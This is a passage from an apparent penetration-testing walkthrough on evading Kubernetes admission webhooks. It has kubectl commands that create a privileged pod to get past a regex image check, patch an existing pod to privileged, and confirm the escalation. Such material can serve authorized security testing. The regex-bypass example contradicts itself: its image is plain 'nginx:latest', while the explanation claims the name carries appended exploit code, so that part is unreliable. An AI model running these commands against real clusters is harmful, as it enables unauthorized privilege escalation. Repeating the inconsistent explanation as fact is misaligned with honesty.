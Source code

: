 Now try to bypass the regex by appending a newline character and a privileged image. This is a common technique.

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: regex-bypass-pod2
spec:
  containers:
  - name: regex-bypass-container
    image: nginx:latest
    securityContext:
      privileged: true
    args:
      - sh
      - -c
      - |
        echo "Bypass Attempt"
EOF
```

**Explanation:** Creates a pod using an image that appears to start with "nginx:" to satisfy the regex but contains additional characters or exploits after.
**Why:** This attempts to exploit a flawed regex by crafting an image name that matches the regex but also contains malicious code.
**Expected Output:** If successful, the pod will be created. Inspect the pod to confirm if the malicious code was executed (in this example, it just outputs "Bypass Attempt").
**What to Look For:** The presence of the pod and evidence that the malicious code was executed.

**Note:** Regex bypass attempts are highly dependent on the specific regex used by the webhook. This is only an example.

### 2.7 Exploitation: Patching Existing Resources

Sometimes, webhooks don't correctly handle updates (PATCH requests) to existing resources.

```bash
kubectl patch pod <existing-pod-name> -p '{"spec":{"containers":[{"name":"<existing-container-name>","securityContext":{"privileged": true}}]}}'
```

**Explanation:**  Attempts to patch an existing pod to set the `privileged` flag to `true`.
**Why:**  To exploit a potential bypass if the webhook doesn't properly validate PATCH requests.
**Expected Output:**  If the patch is successful, the pod's security context will be updated.
**What to Look For:**  Check the pod's YAML definition after patching to confirm the `privileged` flag is now `true`.

```bash
kubectl get pod <existing-pod-name> -o yaml | grep privileged
```

**Contribution:**  Verifies if the privilege escalation was successful by patching.

### 2.8 Failure Policy: Ignore
